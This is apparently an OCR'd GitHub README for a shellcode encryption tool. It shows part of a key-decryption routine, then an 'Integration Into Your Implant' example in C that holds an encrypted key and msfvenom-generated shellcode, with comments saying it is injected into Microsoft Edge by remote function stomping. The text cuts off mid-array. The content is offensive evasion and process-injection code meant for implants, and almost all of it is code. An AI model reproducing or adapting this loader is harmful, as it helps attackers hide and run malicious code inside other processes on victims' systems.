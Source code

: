 ```
    if(!OriginalKey) {return NULL;}
    while (TRUE) { if (((EncryptedKey[0] ^ KeyByte) - 0) == HintByte) {break;} else {KeyByte++;}}
    for (int i = 0; i < KeySize; i++) {
       OriginalKey[i] = (BYTE)((EncryptedKey[i] ^ KeyByte) - i);
    }
    return OriginalKey;
}
```

</br>

## Integration Into Your Implant
To integrate the decrytion routing in your implant, you will need to follow these steps in the order of presentation
- Decrypt the key
- Decrypt the shellcode with the decrypted key

### Example
This example injects shellcode into microsoft edge and executes using remote function stomping.


```
#include <windows.h>
#include <TlHelp32.h>
#include <stdio.h>

#define error(api_call) printf("[!] " api_call " failed with error: %d\n", GetLastError())

/*
    msfvenom -p windows/x64/exec cmd=calc.exe -o calc.bin -f raw exitfunc=thread 
    .\Shell-Crypt.exe gen-256 .\calc.bin .\encrypted.bin
*/

BYTE HintByte = 0x15;
char Key[256] = {
        0x75,0x32,0x44,0xE2,0xCE,0x3C,0x9F,0xEF,0x51,0x31,0x42,0xF9,0x52,0x0C,0x92,0x28,
        0x2B,0x53,0x89,0x9B,0x8D,0xC0,0x4E,0x6C,0xF9,0x1F,0x09,0x35,0x32,0x77,0xB5,0x93,
        0x32,0x6C,0xF7,0x29,0x9C,0xE4,0x2E,0x28,0x72,0xE9,0x8B,0x8E,0x48,0xCF,0xA3,0x6D,
        0x38,0x96,0x82,0x2E,0x58,0x91,0xC2,0x15,0x69,0x48,0x1D,0x87,0x51,0xDC,0x40,0x09,
        0x8C,0x29,0xA0,0x4A,0x5E,0x70,0xD1,0x64,0x4C,0x36,0x55,0x9F,0x4B,0x67,0xF2,0x77,
        0xB9,0xFF,0x07,0x5F,0x8B,0x2A,0x5F,0xC5,0x06,0x2A,0x07,0x58,0x73,0xFA,0x9D,0x08,
        0x4C,0xB1,0x2A,0x4C,0x3C,0x28,0x32,0x2A,0x87,0x1F,0xC8,0xB3,0x44,0xDD,0xE7,0x8C,
        0x54,0x97,0x7F,0xB4,0x8E,0x93,0x4D,0x43,0x79,0xCE,0xAE,0x30,0xBE,0x9A,0xF5,0x16,
        0x1C,0x0B,0xBB,0x38,0x5E,0x14,0x36,0xC2,0xCB,0xAE,0x8E,0x12,0x9C,0x79,0xAB,0x76,
        0xB3,0xA6,0xD3,0x78,0x49,0x54,0xF3,0x17,0xE8,0x79,0x3B,0x58,0x1B,0x44,0x6F,0x7D,
        0x24,0x81,0x7B,0xD5,0xAC,0xBC,0x88,0xF5,0x80,0x69,0xCC,0x84,0xF9,0x03,0xE6,0x7D,
        0x7C,0xB4,0xAA,0x70,0xE4,0x35,0xFA,0x4A,0x7D,0x36,0xD6,0x97,0xB3,0x00,0xF4,0x85,
        0x8A,0x99,0xD4,0x2B,0x8F,0xA8,0x4E,0xC9,0x8E,0x99,0xED,0x52,0x85,0x83,0xBF,0xE7,
        0x19,0x88,0x6D,0xA6,0x88,0xFD,0x09,0xA3,0x5F,0x4B,0xE6,0xF5,0xAD,0x96,0x2C,0x35,
        0xB7,0x1C,0x2B,0x42,0xED,0x1F,0x30,0x08,0x5D,0x06,0x56,0x02,0xA7,0x81,0x9F,0xBE,
        0x31,0xAC,0x44,0x21,0x5B,0x36,0x48,0xAA,0x35,0x02,0x13,0x7B,0x30,0x4D,0x3E,0x95
};
char shellcode[276] = {
        0xE9,0x19,0xA1,0x9B,0x5A,0xBF,0x39,0x88,0x29,0x48,0x59,0xDF,0x67,0x0F,0xB6,0x68,
        0x6D,0x6A,0xE6,0x3A,0xBC,0xC3,0x93,0xA7,0xE1,0x2E,0xC4,0x68,0x2E,0xB2,0x3C,0x86,
        0x12,0xA3,0xFE,0x54,0x88,0x17,0x27,0x96,0xA0,0x2A,0x8C,0xF2,0x35,0xCA,0xA4,0x1E,
        0x84,0xF9,0xD1,0x67,0x06,0x90,0x4C,0x7F,0x10,0x26,0x4E,0xED,0xF4,0xBE,0x00,0xC7,
        0xFE,0x49,0x2F,0xAF,0x71,0x99,0x4B,0x36,0xA6,0x31,0xA3,0xB5,0x0F,0x31,0xC4,0x40,
        0x89,0x4E,0x15,0xA4,0x12,0x35,0x9D,0x29,0x46,0xF0,0xDD,0x8D,0x3C,0x75,0x87,0x4D,
        0x47,0x30,0xC8,0x80,0xF9,0x33,0x0F,0xB5,0x37,0xE9,0xF7,0x29,0x33,0x64,0x91,0x35,
        0xC5,0x50,0xE0,0x50,0xB3,0x36,0x86,0x6C,0x0D,0x74,0x95,0x1C,0x6F,0x3C,0x16,0x36,
        0xC4,0x0A,0x2C,0x24,0xF6,0xEC,0x9C,0x3F,0x2B,0x00,0x5D,0x36,0x05,0x54,0x65,0xC3,
        0xC8,0x75,0x05,0xCC,0x94,0x4F,0x9B,0xA1,0x7B,0x8C,0x89,0xD9,0x54,0xC7,0x6D,0x37,
        0xA5,0x90,0x38,0x99,0x2C,0xBF,0x0A,0xEF,0xE8,0x21,0x5A,0x78,0xB5,0xE8,0x81,0x34,
```